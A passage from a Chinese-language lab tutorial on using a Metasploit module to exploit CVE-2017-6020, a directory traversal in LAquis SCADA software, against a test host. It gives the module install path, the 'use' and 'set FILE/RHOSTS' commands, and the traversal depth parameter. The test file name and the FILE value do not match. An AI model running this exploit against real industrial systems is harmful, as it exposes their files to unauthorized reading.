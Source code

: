 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t018fdbb589eb71a337.png)

[![](https://p2.ssl.qhimg.com/t01308cbc4558763313.png)](https://p2.ssl.qhimg.com/t01308cbc4558763313.png)

[![](https://p4.ssl.qhimg.com/t011845cc51eb4668ec.png)](https://p4.ssl.qhimg.com/t011845cc51eb4668ec.png)

下载完成后，把文件放入metasploit中，为了便于归类和查找，建议放入到下列路径：/usr/share/metasploit-framework/modules/exploits/windows/scada/ ,文件名可以修改以便于记忆和使用。

[![](https://p1.ssl.qhimg.com/t0116687094a30bdd67.png)](https://p1.ssl.qhimg.com/t0116687094a30bdd67.png)

在终端中，输入命令msfconsole，打开metasploit程序，在msf中输入命令：reload_all

[![](https://p4.ssl.qhimg.com/t01359809f6b437cb5f.png)](https://p4.ssl.qhimg.com/t01359809f6b437cb5f.png)

注：这里用到了kali linux中的metasploit，关于kali linux的使用、metasploit的使用这里不专门进行介绍了。

### <a class="reference-link" name="3.3%E3%80%81%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8"></a>3.3、漏洞利用

直接输入命令使用该模块：use exploit/windows/scada/LAquis_cve_2017_6020，

[![](https://p4.ssl.qhimg.com/t0120be219c03d7eb5a.png)](https://p4.ssl.qhimg.com/t0120be219c03d7eb5a.png)

输入命令：show options查看模块参数

[![](https://p0.ssl.qhimg.com/t016bb1a09d56599ea5.png)](https://p0.ssl.qhimg.com/t016bb1a09d56599ea5.png)

参数说明：

DEPTH 到达基本目录的级别，(也就是有多少个../)，如果安装时未更改路径，默认就是向上跳转10级。如果更改路径漏洞利用不成功，可以根据实际情况调整此参数。<br>
FILE 这是要下载的文件,与上面的DEPTH参数结合组成完整的文件路径。<br>
Proxies 端口[，类型：主机：端口] […]的代理链<br>
RHOSTS 目标主机，范围CIDR标识符或具有语法’file：&lt;path&gt;‘的主机文件<br>
RPORT 目标端口（TCP），软件默认安装是1234，不排除更改的可能。<br>
SSL 协商出站连接的SSL / TLS<br>
VHOST HTTP服务器虚拟主机<br>
本实验中我们只需要修改FILE和RHOSTS这两个参数即可<br>
为了使漏洞表现更明显，我们在服务器：192.168.178.150上是windows/system32下新建一个命名为6020.txt的文件。里面输入内容 cve-2017-6020 by Gootime

[![](https://p4.ssl.qhimg.com/t017467c26bb2cb25d1.png)](https://p4.ssl.qhimg.com/t017467c26bb2cb25d1.png)

然后回到msf中，设置FILE和RHOSTS这两个参数；<br>
输入命令：set FILE windows/system32/cve6020.txt<br>
输入命令：set RHOSTS 192.168.178.150<br>
输入命令：show options查看是否输入成功

[![](https://p2.ssl.qhimg.com/t01f264f01a99df791f.png)](https://p2.ssl.qhimg.com/t01f264f01a99df791f.png)
